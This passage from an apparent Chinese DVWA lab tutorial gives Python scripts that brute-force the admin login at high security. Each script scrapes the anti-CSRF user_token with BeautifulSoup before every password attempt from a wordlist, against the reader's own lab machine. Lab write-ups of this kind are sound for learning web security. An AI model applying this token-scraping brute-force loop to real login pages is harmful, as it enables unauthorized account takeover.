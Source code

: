 ```python

user_token = get_token(requrl,header)
i=0
for line in open("password.txt"):
	requrl = "http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/"+"?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token
	i = i+1
	print i,'admin',line.strip(),
	user_token = get_token(requrl,header)
	if (i == 10):
		break
```
get_token 的功能是通过 python 的 BeautifulSoup 库从 html 页面中抓取 user_token 的值,为了方便展示,这里设置只尝试 10 次.

注:在最新版本中,由于 hard 难度的源代码修改,无法直接使用 BeautifulSoup 匹配 user_token 值,在此给出我略微修改的版本
```python
import requests, re
from bs4 import BeautifulSoup

requrl='http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/'
header={
        'Host': '<改成你自己机器IP!!!>',
		'Cache-Control': 'max-age=0',
		'If-None-Match': "307-52156c6a290c0",
		'If-Modified-Since': 'Mon, 05 Oct 2015 07:51:07 GMT',
		'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36',
		'Accept': '*/*',
		'Referer': 'http://192.168.153.130/dvwa/vulnerabilities/brute/index.php',
		'Accept-Encoding': 'gzip, deflate, sdch',
		'Accept-Language': 'zh-CN,zh;q=0.8',
		'Cookie': 'security=high; PHPSESSID=vlalfd2e2rbtptnd8pqqn646g4'
        }

def get_token(requrl,header):
    req = requests.get(url=requrl,headers=header)
    page = req.text
    soup = BeautifulSoup(page,"html.parser")
    value = soup.select("input[name=user_token]")

    key=str(value)
    p1 = r"(?<=value=\").+?(?=\")"
    pattern1 = re.compile(p1)
    matcher1 = re.search(pattern1,key)

    user_token= matcher1.group(0)
    a=str(user_token)
    print (req.status_code,len(page))
    return a

user_token = get_token(requrl,header)
i=0

for key in open("password.txt"):

    requrl = "http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/"+"?username=admin&password="+key.strip()+"&Login=Login&user_token="+user_token

    i = i+1
    print (i,'admin',key.strip(), end=" " )
    user_token = get_token(requrl,header)
    if (i == 100):
        break
```